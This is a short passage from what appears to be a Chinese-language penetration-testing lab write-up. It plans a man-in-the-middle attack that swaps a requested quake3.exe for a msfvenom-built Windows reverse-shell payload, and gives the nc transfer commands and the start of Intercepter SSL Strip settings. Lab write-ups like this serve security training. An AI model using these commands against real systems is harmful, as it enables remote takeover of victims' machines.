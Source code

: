![Alt text](/img/game/TESTLAB/TESTLAB11/quake3.png)

`192.168.12.1`不断向`192.168.12.3`请求`quake3.exe`这个程序。可进行中间人攻击，使得目标机器下载我们定制的`quake3.exe`。

msfvenom生成`quake3.exe`,然后nc上传到机器上。

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.12.2 LPORT=80 -f exe > quake3.exe

nc -w 3 192.168.12.2 1234 < quake3.exe
```

内网机器：

```bash
nc -nvlp 1234 > quake3.exe
```

Intercepter进行MITM攻击，在MITM模式下设置`SSL Strip`和注入规则:
